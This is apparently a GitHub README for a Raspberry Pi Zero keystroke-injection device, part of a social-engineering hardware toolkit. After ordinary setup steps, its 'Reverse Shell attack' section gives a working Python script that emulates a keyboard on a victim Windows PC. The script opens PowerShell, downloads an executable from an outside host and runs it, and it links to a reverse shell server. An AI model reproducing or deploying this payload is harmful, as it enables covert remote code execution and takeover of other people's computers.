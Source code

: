 # Requirements

- Raspberry Pi Zero
- Micro usb to usb A adapter
- Revese Shell Server
- (optional) [Micro usb to usb A dongle](https://52pi.com/collections/raspberry-pi-zero/products/52pi-usb-dongle-for-raspberry-pi-zero-zero-w)

# Setup

- Install [Raspberry Pi Imager](https://www.raspberrypi.com/software/)
- Flash the OS into a SD card using Raspberry Pi Imager
- Insert the SD card into the PI
- Get the Pi's ip by accessing the routers domain and ssh into the device 
- Install apt dependencies
```
sudo apt-get update
sudo apt-get install -y git vim python3-pip python3-venv
```
- init rc-local file
```
sudo bash -c 'echo "#!/bin/bash" > /etc/rc.local'
sudo bash -c 'echo "exit 0" >> /etc/rc.local'   
sudo chmod +x /etc/rc.local
sudo systemctl daemon-reload
sudo systemctl enable rc-local
sudo systemctl start rc-local
```
- setup usb gadget module
```
git clone https://github.com/thewh1teagle/zero-hid
cd zero-hid/usb_gadget
sudo ./installer
```
- add sudo to the file line added by the script
- Create virtual environment and install module
```
python3 -m venv ~/venv
source ~/venv/bin/activate
pip3 install zero-hid
sudo reboot
```
# Reverse Shell attack

- Setup the [Reverse Shell Server](https://github.com/tbsauce/social-engineering-hardware-toolkit/blob/main/server/reverseshell.md)

- create a link on the server and run the following script
```python
from zero_hid import Keyboard, KeyCodes
from zero_hid.hid import keycodes
from time import sleep


with Keyboard() as k:
    k.press([KeyCodes.MOD_LEFT_GUI], KeyCodes.KEY_R)
    sleep(2)
    k.type("powershell")
    k.press([], KeyCodes.KEY_ENTER)
    sleep(2)
    k.type("Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\\test.exe")
```

